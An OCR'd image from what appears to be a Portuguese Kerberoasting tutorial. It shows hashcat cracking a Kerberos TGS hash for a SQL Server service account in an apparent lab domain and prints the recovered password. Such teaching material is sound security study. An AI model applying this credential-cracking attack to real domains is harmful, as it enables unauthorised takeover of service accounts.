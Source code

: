 ```
Maximum password length supported by kernel: 256

Watchdog: Temperature abort trigger set to 90c

Dictionary cache built:
* Filename..: /home/tuxtrack/tools/wordlist/br-wordlist.txt
* Passwords.: 73551
* Bytes.....: 596942
* Keyspace..: 73551
* Runtime...: 0 secs

$krb5tgs$23$*sqlserver$hnr.local$MSSQLSvc/SQL.hnr.local:1433*$b9aa930a4701972a30a499e63dc
bf5bb$61c1e1610ac22090f167efc415053ced20a33f8c2eafa63d4273c01bd5bcb17915adfc5978900e52735
a45fbee87cf87714eef994e0c7141727bde132b74090ba5689a7eb810dd36a7b4c9dca9bde985b4bfda061d4e
79bec757efe5776b3b448928f691ada4d5823e667ac12c04036b7c59b4cc5d6c73c6b90c41a665b75fc1290b1
24a237ff85755d8f32e16554355e376fad9c8bfbe148220a378a2a2c64f2636bce82640050826d1b70754d682
eaa5ef239bd51422a7f47f92f979478407af84db5c4e750084d698a2a86726b38cd97a89e5996105cced2d5bc
a96c08c839ec1129e71bbbd6bbe5072afeccd0a54a1bab854c5542183802a5ced29806de77615f9ce45d3dc5c
00ee84c27104f46aa219f36103f4ffec0f2144d7d46ff2f9466b6bba33fff5cd353b8a236f6e972e62f707857
1920320c8cf6279899c3304194e55dfa9053d5c3b6a67d122de88fab9475532643ba0ce5e3fdf3b2136439c33
a722fc040aa9b04ca4c3033c2d766dfa76d9f43680d28f74aa7835df74523cf30fc633fb6e63b1ce48c855a8b
5888ca3f054106e6c9aa7fb216ec32673e58091f587e86c2c84b82bcae0406a762b0fa0c5fa7c27245df3789b
8920d876d2fa0c6ba762cf9e8c6ed754ddb67370073d761c4ab9e71140ce56ad0645050cd0e164812040a2b16
d0649ca51b8b63518092a5d2810fc103cc1c7288f18c0e524fd2e050724e8b2b81fc957b704eb7b05f712f5bf
ee43c46261a2f6c6204a6178c694f662d409452dd823fa92b2a2a5e2d9cb00410007ee832d7631b2a5b3744e8
8409e4f4cf24b872d0c724d2733fa37b581cbfd18bf068f7518be633200e43fb38b32ecb1400bdf2f25c8190a
55df5d126e2d60fb445e58ee82df35b5a36c1dbf7915a42eac048235144086c8e75694068e1fc1a619990a545
1be5c7d9f1b3b3e21ed3a38c96c974dcd030cb5b4a7bd1c1fcfc91c75e0a025b4e965603251a319ee5e56706b
ad97a827c2dff3403202e4dcb25618cb488e04193a80281bd64f96d6efb8c89285320cd3749ee651c5096a073
3e39a2a603ea681ba0c423393f7326cdd2ee206f565f1084627e7d27db1327c4b1413858a372d377a412a1f70
5b22dbe13ab6df19430c1a82b0678467c964982ad192d6e6a00f86115925c82e6a50d7cf35450b06283d1c51d
02d926f23bf99b24eb5557f019720f1eb4c11cd4915aab29c0afb978c1233bda567381dc9ba6ccc84d7b7db27
fd78a06b40da4acb6fc6094befbe6b18926ae821ee728347a4914bddda945c2947aced4a2a187b0357b9d5953
f363462f0726f332b3761b112b540f1a01402e60dea0d0485f36194ae17d8cfec6acb6229efee662d4187f710
2393488d31ff6a5d4c40262274fb4a5ea1c7d76638c0b1ba82f62c841de519e0a2955b82eea2f70fae5dd30ec
007130caed823aa6f84fa97c227347a871dceefaa4d0860a82151c0a049b52332c550732c95a7c7ed54c0aa6a
1033831a4598b6bd0069b34e6bfd11ecc5ec8dca0a0e9d89dda1d3056e240beeaa98ce0645aeb105194382fb0
68e2ccb:P@$sword
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Type........: Kerberos 5 TGS-REP etype 23
Hash.Target......: $krb5tgs$23$*sqlserver$hnr.local$MSSQLSvc/SQL.hnr.l...8e2ccb
Time.Started.....: Thu Feb 13 11:07:38 2020 (0 secs)
Time.Estimated...: Thu Feb 13 11:07:38 2020 (0 secs)
Guess.Base.......: File (/home/tuxtrack/tools/wordlist/br-wordlist.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   716.3 kH/s (9.92ms) @ Accel:256 Loops:1 Thr:64 Vec:1
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 73551/73551 (100.00%)
Rejected.........: 0/73551 (0.00%)
Restore.Point....: 0/73551 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: Aarao -> integros
Hardware.Mon.#1..: Temp: 49c Util: 33% Core:1019MHz Mem:2505MHz Bus:16

Started: Thu Feb 13 11:07:28 2020
Stopped: Thu Feb 13 11:07:39 2020
```
Havendo sucesso, a senha é descoberta e o atacante poderá ter acesso a conta de serviço.
